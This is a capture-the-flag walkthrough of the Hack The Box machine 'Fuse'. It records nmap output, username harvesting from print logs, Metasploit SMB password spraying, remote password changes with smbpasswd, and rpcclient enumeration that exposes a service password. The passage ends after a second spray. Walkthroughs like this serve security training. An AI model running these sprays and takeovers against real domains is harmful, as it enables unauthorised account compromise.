




# HTB - Fuse

### Overview



Short description to include any strange things to be dealt with

You may see me using Metasploit more starting from this machine. I recently went through a class where we used it quite a bit, so I learned that it isn't as bad as I thought and can even help workflow in some cases. I am probably still going to avoid easy-button exploits unless crunched for time \(always depending on what is available!\). It's about the learning journey, not the end result of capturing the flags.

### Useful Skills and Tools

**Useful thing 1**

* description with generic example

**Useful thing 2**

* description with generic example

### Enumeration

#### Nmap scan

I started my enumeration with an nmap scan of `10.10.10.193`. The options I regularly use are: `-p-`, which is a shortcut which tells nmap to scan all ports, `-sC` is the equivalent to `--script=default` and runs a collection of nmap enumeration scripts against the target, `-sV` does a service scan, and `-oA <name>` saves the output with a filename of `<name>`.

```text
┌──(zweilos㉿kali)-[~/htb/fuse]
└─$ nmap -n -v -p- -sCV -oA fuse 10.10.10.193    

Nmap scan report for 10.10.10.193
Host is up (0.044s latency).
Not shown: 65514 filtered ports
PORT      STATE SERVICE      VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-09-25 18:22:07Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: FABRICORP)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49675/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc        Microsoft Windows RPC
49680/tcp open  msrpc        Microsoft Windows RPC
49698/tcp open  msrpc        Microsoft Windows RPC
49760/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=9/25%Time=5F6E30D1%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: FUSE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h39m16s, deviation: 4h02m32s, median: 19m14s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Fuse
|   NetBIOS computer name: FUSE\x00
|   Domain name: fabricorp.local
|   Forest name: fabricorp.local
|   FQDN: Fuse.fabricorp.local
|_  System time: 2020-09-25T11:24:29-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-09-25T18:24:25
|_  start_date: 2020-09-25T17:42:57

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 410.91 seconds
```

many many ports open. From the ports and services open this appears to be a domain controller running windows server 2016

navigating to port 80 redirects to [http://fuse.fabricorp.local/papercut/logs/html/index.htm](http://fuse.fabricorp.local/papercut/logs/html/index.htm), added fuse.fabricorp.local to hosts



I clicked on view HTML for each of the print history pages






potential usernames in the print history pages

```text
Time        User        Pages    Copies    Printer        Document                        Client    Duplex    Grayscale
Print Logs - 29 May 2020
17:50:10     pmerton     1     1     HP-MFT01     New Starter - bnielson - Notepad LETTER, 19kb, PCL6    JUMP01     No     Yes
17:53:55     tlavel         1     1     HP-MFT01     IT Budget Meeting Minutes - Notepad LETTER, 52kb, PCL6     LONWK015 No     Yes

Print Logs - 30 May 2020
16:37:45     sthompson     1     1     HP-MFT01     backup_tapes - Notepad LETTER, 20kb, PCL6     LONWK019     No     Yes
16:42:19     sthompson     1     1     HP-MFT01     mega_mountain_tape_request.pdf LETTER, 20kb, PCL6     LONWK019     No     No
17:07:06     sthompson     1     1     HP-MFT01     Fabricorp01.docx - Word LETTER, 153kb, PCL6     LONWK019     No     Yes

Print Logs - 10 Jun 2020
17:40:21     bhult         1     1     HP-MFT01     offsite_dr_invocation - Notepad LETTER, 19kb, PCL6     LAPTOP07     No     Yes
19:18:17     administrator     1     1     HP-MFT01     printing_issue_test - Notepad LETTER, 16kb, PCL6     FUSE     No     Yes
```

I found six potential usernames \(including `bnielson` in one of the document titles. The document title `Fabricorp01.docx` also stuck out to me as looking like the perfect type of thing that corporate users would likely use as a password.  

```text
msf5 auxiliary(gather/kerberos_enumusers) > run
[*] Running module against 10.10.10.193

[*] Validating options...
[*] Using domain: FABRICORP...
[*] 10.10.10.193:88 - Testing User: "pmerton"...
[*] 10.10.10.193:88 - KDC_ERR_PREAUTH_REQUIRED - Additional pre-authentication required
[+] 10.10.10.193:88 - User: "pmerton" is present
[*] 10.10.10.193:88 - Testing User: "tlavel"...
[*] 10.10.10.193:88 - KDC_ERR_PREAUTH_REQUIRED - Additional pre-authentication required
[+] 10.10.10.193:88 - User: "tlavel" is present
[*] 10.10.10.193:88 - Testing User: "sthompson"...
[*] 10.10.10.193:88 - KDC_ERR_PREAUTH_REQUIRED - Additional pre-authentication required
[+] 10.10.10.193:88 - User: "sthompson" is present
[*] 10.10.10.193:88 - Testing User: "bhult"...
[*] 10.10.10.193:88 - KDC_ERR_PREAUTH_REQUIRED - Additional pre-authentication required
[+] 10.10.10.193:88 - User: "bhult" is present
[*] 10.10.10.193:88 - Testing User: "administrator"...
[*] 10.10.10.193:88 - KDC_ERR_PREAUTH_REQUIRED - Additional pre-authentication required
[+] 10.10.10.193:88 - User: "administrator" is present
[*] 10.10.10.193:88 - Testing User: "bnielson"...
[*] 10.10.10.193:88 - KDC_ERR_PREAUTH_REQUIRED - Additional pre-authentication required
[+] 10.10.10.193:88 - User: "bnielson" is present
[*] Auxiliary module execution complete
```

Unfortunately these users all had Kerberos pre-authentication enabled, but I was able to confirm that all of them were valid usernames.

At first I started chasing the little white rabbit while doing research about this Papercut service.  I managed to find some interesting results that looked like a potential way to retrieve printed documents through backups, but I either did not have the proper privileges, or these options were not active on this site. 

* [https://www.papercut.com/kb/Main/RetrieveDeletedUserPrintData\#restore-from-a-backup-on-to-a-test-server](https://www.papercut.com/kb/Main/RetrieveDeletedUserPrintData#restore-from-a-backup-on-to-a-test-server)
* [https://www.papercut.com/support/resources/manuals/ng-mf/common/topics/sys-backups.html](https://www.papercut.com/support/resources/manuals/ng-mf/common/topics/sys-backups.html)
* \[app-path\]\server\data\backups
* [https://nvd.nist.gov/vuln/detail/CVE-2019-8948](https://nvd.nist.gov/vuln/detail/CVE-2019-8948)

After exhausting those possibilities, I went back and tried to do a good ol' brute force enumeration using the valid usernames I had found and my potential password I had spotted.

```text
msf5 auxiliary(gather/kerberos_enumusers) > search type:auxiliary smb

Matching Modules
================

   #   Name                                                            Disclosure Date  Rank    Check  Description
   -   ----                                                            ---------------  ----    -----  -----------
...snipped...
55  auxiliary/scanner/smb/smb_enumusers                                              normal  No     SMB User Enumeration (SAM EnumUsers)                                                                     
56  auxiliary/scanner/smb/smb_enumusers_domain                                       normal  No     SMB Domain User Enumeration                                                                              
57  auxiliary/scanner/smb/smb_login                                                  normal  No     SMB Login Check Scanner                                                                                  
58  auxiliary/scanner/smb/smb_lookupsid                                              normal  No     SMB SID User Enumeration (LookupSid)                                                                     
59  auxiliary/scanner/smb/smb_ms17_010
...snipped...
msf5 auxiliary(scanner/smb/smb_enumusers) > use 57
msf5 auxiliary(scanner/smb/smb_login) > options

Module options (auxiliary/scanner/smb/smb_login):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   ABORT_ON_LOCKOUT   false            yes       Abort the run when an account lockout is detected
   BLANK_PASSWORDS    false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED   5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS       false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS        false            no        Add all passwords in the current database to the list
   DB_ALL_USERS       false            no        Add all users in the current database to the list
   DETECT_ANY_AUTH    false            no        Enable detection of systems accepting any authentication
   DETECT_ANY_DOMAIN  false            no        Detect if domain is required for the specified user
   PASS_FILE                           no        File containing passwords, one per line
   PRESERVE_DOMAINS   true             no        Respect a username that contains a domain name.
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST       false            no        Record guest-privileged random logins to the database
   RHOSTS             10.10.10.193     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT              445              yes       The SMB service port (TCP)
   SMBDomain          .                no        The Windows domain to use for authentication
   SMBPass                             no        The password for the specified username
   SMBUser                             no        The username to authenticate as
   STOP_ON_SUCCESS    false            yes       Stop guessing when a credential works for a host
   THREADS            1                yes       The number of concurrent threads (max one per host)
   USERPASS_FILE                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS       false            no        Try the username as the password for all users
   USER_FILE                           no        File containing usernames, one per line
   VERBOSE            true             yes       Whether to print output for all attempts

msf5 auxiliary(scanner/smb/smb_login) > set user_file users
user_file => users
msf5 auxiliary(scanner/smb/smb_login) > set smbpass Fabricorp01
smbpass => Fabricorp01
msf5 auxiliary(scanner/smb/smb_login) > set smbdomain FABRICORP
smbdomain => FABRICORP
msf5 auxiliary(scanner/smb/smb_login) > run

[*] 10.10.10.193:445      - 10.10.10.193:445 - Starting SMB login bruteforce
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\pmerton:Fabricorp01',
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: 'FABRICORP\tlavel:Fabricorp01'
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\sthompson:Fabricorp01',
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: 'FABRICORP\bhult:Fabricorp01'
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\administrator:Fabricorp01',
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: 'FABRICORP\bnielson:Fabricorp01'
[*] 10.10.10.193:445      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

After running the `smb_login` scanner I found that not only one person had used this as their password, but three people had!

```text
┌──(zweilos㉿kalimaa)-[~/htb/fuse]
└─$ smbclient -U "FABRICORP\bnielson" -L \\\\10.10.10.193\\
Enter FABRICORP\bnielson's password: 
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE

┌──(zweilos㉿kalimaa)-[~/htb/fuse]
└─$ smbclient -U "FABRICORP\tlavel" -L \\\\10.10.10.193\\                                           1 ⨯
Enter FABRICORP\tlavel's password: 
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE

┌──(zweilos㉿kalimaa)-[~/htb/fuse]
└─$ smbclient -U "FABRICORP\bhult" -L \\\\10.10.10.193\\                                            1 ⨯
Enter FABRICORP\bhult's password: 
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
```

However, I got an interesting error back when trying to enumerate open shares for these three users: `NT_STATUS_PASSWORD_MUST_CHANGE`.  I looked this up and found out that this meant that the user's passwords had expired and would have to be changed before they could log in.  Next, I did some research on changing SMB login passwords remotely from a Linix command line.

[https://samba.samba.narkive.com/I0oDpMEz/smbclient-says-nt-status-password-must-change-how-to-change-password](https://samba.samba.narkive.com/I0oDpMEz/smbclient-says-nt-status-password-must-change-how-to-change-password)

> How does one go about changing the windows password from a unix machine with no physical access to the windows machine sharing things?
>
> SWAT provides the password change facility you are looking for. If you prefer a command line tool, smbpasswd has the same functionality - check the -U and -r options. The smbpasswd man page documents the password change options.

```text
-r remote machine name
           This option allows a user to specify what machine they wish to change their password on.
           Without this parameter smbpasswd defaults to the local host. The remote machine name is
           the NetBIOS name of the SMB/CIFS server to contact to attempt the password change. This
           name is resolved into an IP address using the standard name resolution mechanism in all
           programs of the Samba suite. See the -R name resolve order parameter for details on
           changing this resolving mechanism.

           The username whose password is changed is that of the current UNIX logged on user. See the
           -U username parameter for details on changing the password for a different username.

           Note that if changing a Windows NT Domain password the remote machine specified must be
           the Primary Domain Controller for the domain (Backup Domain Controllers only have a
           read-only copy of the user account database and will not allow the password change).
```

I checked the man page for `smbpasswd` to see what the `-r` and `-U` options did, and found out that that these flags let me specify a remote host \(`-r`\) and username \(`U`\). 

```text
┌──(zweilos㉿kalimaa)-[~/htb/fuse]
└─$ smbpasswd -r 10.10.10.193 -U bnielson                                                           1 ⨯
Old SMB password: Fabricorp01
New SMB password: test
Retype new SMB password: test
machine 10.10.10.193 rejected the password change: Error was : When trying to update a password, this status indicates that some password update rule has been violated. For example, the password might not meet length criteria..
```

I used this to try to change the password for `bnielson`, but it seemed as if there were some sort of password complexity rules in place. 


The passwords will not show up on the screen like in my output above.  I added them to illustrate what I had done since the two code output boxes were identical without them!


```text
┌──(zweilos㉿kalimaa)-[~/htb/fuse]
└─$ smbpasswd -r 10.10.10.193 -U bnielson                                                         
Old SMB password: Fabricorp01
New SMB password: $Up3rC0mp13xP@$$w0rd
Retype new SMB password: $Up3rC0mp13xP@$$w0rd
Password changed for user bnielson
```

After choosing a more complex password, I was able to change it successfully.

```text
┌──(zweilos㉿kalimaa)-[~/htb/fuse]
└─$ smbclient -U "bnielson" -L \\\\10.10.10.193\\ 
Enter WORKGROUP\bnielson's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        HP-MFT01        Printer   HP-MFT01
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        print$          Disk      Printer Drivers
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

Next I used my new password for `bnielson` to enumerate open SMB shares. Besides the standard default shares, there were also a `HP-MFT01` and a `$print` share.

```text
┌──(zweilos㉿kalimaa)-[~/htb/fuse]
└─$ rpcclient -U bnielson 10.10.10.193   
Enter WORKGROUP\bnielson's password: 

rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[svc-print] rid:[0x450]
user:[bnielson] rid:[0x451]
user:[sthompson] rid:[0x641]
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[bhult] rid:[0x1bbd]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]
user:[astein] rid:[0x1db2]
user:[dmuir] rid:[0x1db3]

rpcclient $> enumprivs 0x451
found 35 privileges

SeCreateTokenPrivilege          0:2 (0x0:0x2)
SeAssignPrimaryTokenPrivilege           0:3 (0x0:0x3)
SeLockMemoryPrivilege           0:4 (0x0:0x4)
SeIncreaseQuotaPrivilege                0:5 (0x0:0x5)
SeMachineAccountPrivilege               0:6 (0x0:0x6)
SeTcbPrivilege          0:7 (0x0:0x7)
SeSecurityPrivilege             0:8 (0x0:0x8)
SeTakeOwnershipPrivilege                0:9 (0x0:0x9)
SeLoadDriverPrivilege           0:10 (0x0:0xa)
SeSystemProfilePrivilege                0:11 (0x0:0xb)
SeSystemtimePrivilege           0:12 (0x0:0xc)
SeProfileSingleProcessPrivilege                 0:13 (0x0:0xd)
SeIncreaseBasePriorityPrivilege                 0:14 (0x0:0xe)
SeCreatePagefilePrivilege               0:15 (0x0:0xf)
SeCreatePermanentPrivilege              0:16 (0x0:0x10)
SeBackupPrivilege               0:17 (0x0:0x11)
SeRestorePrivilege              0:18 (0x0:0x12)
SeShutdownPrivilege             0:19 (0x0:0x13)
SeDebugPrivilege                0:20 (0x0:0x14)
SeAuditPrivilege                0:21 (0x0:0x15)
SeSystemEnvironmentPrivilege            0:22 (0x0:0x16)
SeChangeNotifyPrivilege                 0:23 (0x0:0x17)
SeRemoteShutdownPrivilege               0:24 (0x0:0x18)
SeUndockPrivilege               0:25 (0x0:0x19)
SeSyncAgentPrivilege            0:26 (0x0:0x1a)
SeEnableDelegationPrivilege             0:27 (0x0:0x1b)
SeManageVolumePrivilege                 0:28 (0x0:0x1c)
SeImpersonatePrivilege          0:29 (0x0:0x1d)
SeCreateGlobalPrivilege                 0:30 (0x0:0x1e)
SeTrustedCredManAccessPrivilege                 0:31 (0x0:0x1f)
SeRelabelPrivilege              0:32 (0x0:0x20)
SeIncreaseWorkingSetPrivilege           0:33 (0x0:0x21)
SeTimeZonePrivilege             0:34 (0x0:0x22)
SeCreateSymbolicLinkPrivilege           0:35 (0x0:0x23)
SeDelegateSessionUserImpersonatePrivilege               0:36 (0x0:0x24)
rpcclient $> lsaaddacctrights
Usage: lsaaddacctrights SID [rights...]
rpcclient $> lsaaddacctrights 0x451 SeDebugPrivilege
result was NT_STATUS_NONE_MAPPED
rpcclient $> lsaaddacctrights 0x451 0x14
result was NT_STATUS_NONE_MAPPED
rpcclient $> lsaaddacctrights 0x451 0x0:0x14
result was NT_STATUS_NONE_MAPPED

rpcclient $> srvinfo
        10.10.10.193   Wk Sv PDC Tim PrQ NT 
        platform_id     :       500
        os version      :       10.0
        server type     :       0x80122b
rpcclient $> netshareenum
result was WERR_ACCESS_DENIED
rpcclient $> queryuser 0x451
        User Name   :   bnielson
        Full Name   :
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Fri, 25 Sep 2020 18:43:58 EDT
        Logoff Time              :      Wed, 31 Dec 1969 19:00:00 EST
        Kickoff Time             :      Wed, 31 Dec 1969 19:00:00 EST
        Password last set Time   :      Wed, 31 Dec 1969 19:00:00 EST
        Password can change Time :      Wed, 31 Dec 1969 19:00:00 EST
        Password must change Time:      Wed, 31 Dec 1969 19:00:00 EST
        unknown_2[0..31]...
        user_rid :      0x451
        group_rid:      0x201
        acb_info :      0x00020010
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x00000000
        padding1[0..7]...
        logon_hrs[0..21]...
rpcclient $> querygroup 0x201
        Group Name:     Domain Users
        Description:    All domain users
        Group Attribute:7
        Num Members:14

rpcclient $> queryusergroups
Usage: queryusergroups rid [access mask]
rpcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44e]
group:[IT_Accounts] rid:[0x644]


rpcclient $> querygroupmem 0x200
        rid:[0x1f4] attr:[0x7]
        rid:[0x641] attr:[0x7]

rpcclient $> queryuser 0x641
        User Name   :   sthompson
        Full Name   :
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Sat, 30 May 2020 19:31:57 EDT
        Logoff Time              :      Wed, 31 Dec 1969 19:00:00 EST
        Kickoff Time             :      Wed, 31 Dec 1969 19:00:00 EST
        Password last set Time   :      Sat, 30 May 2020 19:30:58 EDT
        Password can change Time :      Sun, 31 May 2020 19:30:58 EDT
        Password must change Time:      Wed, 13 Sep 30828 22:48:05 EDT
        unknown_2[0..31]...
        user_rid :      0x641
        group_rid:      0x201
        acb_info :      0x00000210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x00000001
        padding1[0..7]...
        logon_hrs[0..21]...

rpcclient $> queryuser 0x1f4
        User Name   :   Administrator
        Full Name   :
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :   Built-in account for administering the computer/domain
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Fri, 25 Sep 2020 16:23:52 EDT
        Logoff Time              :      Wed, 31 Dec 1969 19:00:00 EST
        Kickoff Time             :      Wed, 31 Dec 1969 19:00:00 EST
        Password last set Time   :      Sat, 30 May 2020 20:26:24 EDT
        Password can change Time :      Sun, 31 May 2020 20:26:24 EDT
        Password must change Time:      Wed, 13 Sep 30828 22:48:05 EDT
        unknown_2[0..31]...
        user_rid :      0x1f4
        group_rid:      0x201
        acb_info :      0x00000210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x00001745
        padding1[0..7]...
        logon_hrs[0..21]...

rpcclient $> dsroledominfo
Machine Role = [5]
Directory Service is running.
Domain is in native mode.
rpcclient $> chgpasswd 0x641
Usage: chgpasswd username oldpass newpass
result was NT_STATUS_INVALID_PARAMETER
rpcclient $> getusrdompwinfo 0x641
    &info: struct samr_PwInfo
        min_password_length      : 0x0007 (7)
        password_properties      : 0x00000001 (1)
               1: DOMAIN_PASSWORD_COMPLEX  
               0: DOMAIN_PASSWORD_NO_ANON_CHANGE
               0: DOMAIN_PASSWORD_NO_CLEAR_CHANGE
               0: DOMAIN_PASSWORD_LOCKOUT_ADMINS
               0: DOMAIN_PASSWORD_STORE_CLEARTEXT
               0: DOMAIN_REFUSE_PASSWORD_CHANGE

rpcclient $> enumprinters
        flags:[0x800000]
        name:[\\10.10.10.193\HP-MFT01]
        description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
        comment:[]
```

After enumerating RPC with `rpcclient` for awhile and finding a bunch of useful information, I hit the jackpot when checking for printers. In the description field someone had left a helpful note telling users where the printer was located, and also what the password was!

```text
msf5 auxiliary(scanner/smb/smb_login) > run

[*] 10.10.10.193:445      - 10.10.10.193:445 - Starting SMB login bruteforce
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\pmerton:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\pmerton:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\pmerton:$fab@s3Rv1ce$1',
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: 'FABRICORP\tlavel:Fabricorp01'
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\sthompson:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\sthompson:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\sthompson:$fab@s3Rv1ce$1',
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: 'FABRICORP\bhult:Fabricorp01'
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\administrator:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\administrator:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\administrator:$fab@s3Rv1ce$1',
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: 'FABRICORP\bnielson:Fabricorp01'
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\Administrator:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\Administrator:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\Administrator:$fab@s3Rv1ce$1',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\Guest:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\Guest:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\Guest:$fab@s3Rv1ce$1',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\krbtgt:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\krbtgt:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\krbtgt:$fab@s3Rv1ce$1',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\DefaultAccount:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\DefaultAccount:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\DefaultAccount:$fab@s3Rv1ce$1',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\svc-print:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\svc-print:Fabricorp01',
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: 'FABRICORP\svc-print:$fab@s3Rv1ce$1'
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\sthompson:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\sthompson:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\sthompson:$fab@s3Rv1ce$1',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\pmerton:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\pmerton:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\pmerton:$fab@s3Rv1ce$1',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\svc-scan:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\svc-scan:Fabricorp01',
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: 'FABRICORP\svc-scan:$fab@s3Rv1ce$1'
